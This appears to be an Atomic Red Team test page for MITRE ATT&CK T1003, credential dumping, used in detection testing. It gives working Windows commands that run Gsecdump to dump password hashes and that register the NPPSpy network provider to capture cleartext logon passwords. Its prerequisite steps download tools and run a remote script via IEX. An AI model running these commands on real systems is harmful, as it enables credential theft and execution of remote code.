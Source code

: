 # T1003 - OS Credential Dumping
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003)
<blockquote>Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform [Lateral Movement](https://attack.mitre.org/tactics/TA0008) and access restricted information.

Several of the tools mentioned in associated sub-techniques may be used by both adversaries and professional security testers. Additional custom tools likely exist as well.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Gsecdump](#atomic-test-1---gsecdump)

- [Atomic Test #2 - Credential Dumping with NPPSpy](#atomic-test-2---credential-dumping-with-nppspy)


<br/>

## Atomic Test #1 - Gsecdump
Dump credentials from memory using Gsecdump.

Upon successful execution, you should see domain\username's following by two 32 characters hashes.

If you see output that says "compat: error: failed to create child process", execution was likely blocked by Anti-Virus. 
You will receive only error output if you do not run this test from an elevated context (run as administrator)

If you see a message saying "The system cannot find the path specified", try using the get-prereq_commands to download and install Gsecdump first.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gsecdump_exe | Path to the Gsecdump executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;gsecdump.exe|
| gsecdump_bin_hash | File hash of the Gsecdump binary file | String | 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC|
| gsecdump_url | Path to download Gsecdump binary file | url | https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{gsecdump_exe} -a
```




#### Dependencies:  Run with `powershell`!
##### Description: Gsecdump must exist on disk at specified location (#{gsecdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{gsecdump_exe}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1")
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){
  Move-Item $binpath "#{gsecdump_exe}"
}
```




<br/>
<br/>

## Atomic Test #2 - Credential Dumping with NPPSpy
Changes ProviderOrder Registry Key Parameter and creates Key for NPPSpy.
After user's logging in cleartext password is saved in C:\NPPSpy.txt.
Clean up deletes the files and reverses Registry changes.
NPPSpy Source: https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "$env:Temp\NPPSPY.dll" -Destination "C:\Windows\System32"
$path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"
Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore
echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"
```

#### Cleanup Commands:
```powershell
$cleanupPath = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$cleanupUpdatedValue = $cleanupPath.PROVIDERORDER 
$cleanupUpdatedValue = $cleanupUpdatedValue -replace ',NPPSpy',''
Set-ItemProperty -Path $cleanupPath.PSPath -Name "PROVIDERORDER" -Value $cleanupUpdatedValue
Remove-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy" -Recurse -ErrorAction Ignore
Remove-Item C:\NPPSpy.txt -ErrorAction Ignore
Remove-Item C:\Windows\System32\NPPSpy.dll -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: NPPSpy.dll must be available in local temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:Temp\NPPSPY.dll") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri https://github.com/gtworek/PSBits/raw/f221a6db08cb3b52d5f8a2a210692ea8912501bf/PasswordStealing/NPPSpy/NPPSPY.dll -OutFile "$env:Temp\NPPSPY.dll"
```




<br/>
